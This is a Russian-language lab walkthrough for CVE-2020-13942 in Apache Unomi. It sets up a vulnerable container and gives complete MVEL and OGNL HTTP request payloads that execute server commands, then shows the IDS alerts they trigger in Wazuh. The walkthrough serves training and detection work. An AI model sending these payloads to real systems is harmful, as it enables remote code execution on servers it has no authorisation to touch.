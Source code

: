 # CVE-2020-13942

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2020-13942](https://nvd.nist.gov/vuln/detail/CVE-2020-13942)
* [https://www.opencve.io/cve/CVE-2020-13942](https://www.opencve.io/cve/CVE-2020-13942)

Apache Unomi — это платформа данных о клиентах с открытым исходным кодом Java, сервер Java, предназначенный для управления данными о клиентах, потенциальных клиентах и ​​посетителях, а также для персонализации обслуживания клиентов. В версиях до 1.5.1 Apache Unomi позволял злоумышленникам отправлять вредоносные запросы с выражениями MVEL и OGNL, которые могли содержать произвольные классы, что приводило к удаленному выполнению кода (RCE) с привилегиями приложения Unomi.

### Эксплуатация уязвимости

> Контейнер с уязвимой средой находится в директории /home/user/Hackathon/vulhub-master/unomi/CVE-2020-13942

Для запуска уязвимой среды выоплните команду:

```
docker compose up -d
```

После запуска по адресу http://ваш-ip:8181 будет доступна стандартная страница Apache Unomi

<figure><img src="../../.gitbook/assets/cve-2020-13942(1).png" alt=""><figcaption></figcaption></figure>

Выполнение произвольных команд через выражения MVEL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 483

{
    "filters": [
        {
            "id": "sample",
            "filters": [
                {
                    "condition": {
                         "parameterValues": {
                            "": "script::Runtime r = Runtime.getRuntime(); r.exec(\"touch /tmp/mvel\");"
                        },
                        "type": "profilePropertyCondition"
                    }
                }
            ]
        }
    ],
    "sessionId": "sample"
}
```

Выполнение произвольных команд через выражения OGNL:

```
POST /context.json HTTP/1.1
Host: ваш-ip:8181
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/json
Content-Length: 1060

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"touch /tmp/ognl\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/cve-2020-13942(2).png" alt=""><figcaption></figcaption></figure>
